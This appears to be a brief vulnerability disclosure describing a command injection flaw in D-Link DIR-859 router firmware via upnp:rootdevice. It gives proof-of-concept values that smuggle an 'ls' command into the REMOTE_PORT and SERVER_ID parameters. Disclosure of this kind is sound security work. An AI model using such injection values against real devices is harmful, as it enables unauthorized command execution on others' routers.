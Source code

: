 # D-LINK DIR-859 A3 1.05 b03 and A1 1.02 b03 upnp:rootdevice command injection 

## Firmware address
http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-859 
![image-1](./img/3.jpg)

## Debugging verification
set REMOTE_PORT parameter as REMOTE_PORT="8888;ls;" 
![image-1](./img/1.jpg) 
set SERVER_ID parameter as SERVER_ID="1;ls" 
![image-1](./img/2.jpg) 
